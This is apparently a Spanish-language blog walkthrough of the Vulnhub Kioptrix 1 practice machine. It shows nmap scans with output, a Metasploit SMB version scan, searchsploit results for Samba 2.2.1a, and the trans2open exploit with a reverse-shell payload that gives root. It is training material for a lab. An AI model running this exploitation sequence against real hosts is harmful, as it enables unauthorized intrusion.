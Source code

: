 ```yaml
---
title: "Vulnhub #2: Kioptrix 1"
description: Pentesting a máquina Kioptrix en Vulnhub
date: 2025-05-10
scheduled: 2025-05-10
tags:
  - hacking
layout: layouts/post.njk
---
```


Puedes descargar la máquina vulnerable desde [vulnhub](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)

## Descubrimiento de hosts

1. Escaneamos para descubrir hosts:
nmap -sn <ip>/<rango>

Nos da el siguiente resultado:

```
Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-10 09:23 CEST
Nmap scan report for www.adsl.vf (192.168.0.1)
Host is up (0.0048s latency).
Nmap scan report for 192.168.0.10
Host is up (0.082s latency).
Nmap scan report for 192.168.0.16
Host is up (0.00044s latency).
Nmap scan report for 192.168.0.20
Host is up (0.000081s latency).
Nmap scan report for 192.168.0.24
Host is up (0.00041s latency).
Nmap done: 256 IP addresses (5 hosts up) scanned in 15.31 seconds
```

2. Escaneamos versiones
nmap -sV <ip>

```
 ~ nmap -sV 192.168.0.24
Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-10 09:26 CEST
Nmap scan report for 192.168.0.24
Host is up (0.0021s latency).
Not shown: 994 closed ports
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp   open  rpcbind     2 (RPC #100000)
139/tcp   open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
32768/tcp open  status      1 (RPC #100024)
```

Vemos que 192.168.0.24 es un redhat con varios puertos abiertos.

Nos interesa el servicio de Samba, pero necesitamos conocer su version antes de atacar.

Con metasploit podemos ejecutar el siguiente scanner:

```
msfconsole
search /scanner/smb/ #para buscar
use /auxiliary/scanner/smb/smb_version
show options
set rhosts 192.168.0.24
```

Al lanzarlo, obtenemos lo siguiente:

```
[*] 192.168.0.24:139      - SMB Detected (versions:) (preferred dialect:) (signatures:optional)
[*] 192.168.0.24:139      -   Host could not be identified: Unix (Samba 2.2.1a)
[*] 192.168.0.24:         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Una vez tenemos la version, podemos buscar si existen exploits con `searchsploit <servicio>` y `searchsplot <servicio> <version>`

Con searchsploit samba 2.2.1a nos da el siguiente resultado:

```
------------------------------- ---------------------------------
 Exploit Title                 |  Path
------------------------------- ---------------------------------
Samba 2.2.0 < 2.2.8 (OSX) - tr | osx/remote/9924.rb
Samba < 2.2.8 (Linux/BSD) - Re | multiple/remote/10.c
Samba < 3.0.20 - Remote Heap O | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial o | linux_x86/dos/36741.py
------------------------------- ---------------------------------
Shellcodes: No Results
```

Para explotar la vulnerabilidad debemos encontrar una en su version.

En concreto, aqui tenemos la vulnerabilidad trans2open, podemos buscarla con `search trans2open` en metasploit.

Debemos configurar el payload con `set payload linux/x86/shell_reverse_tcp` y el rhosts.

Al lanzarlo con run obtenemos una shell con usuario root.
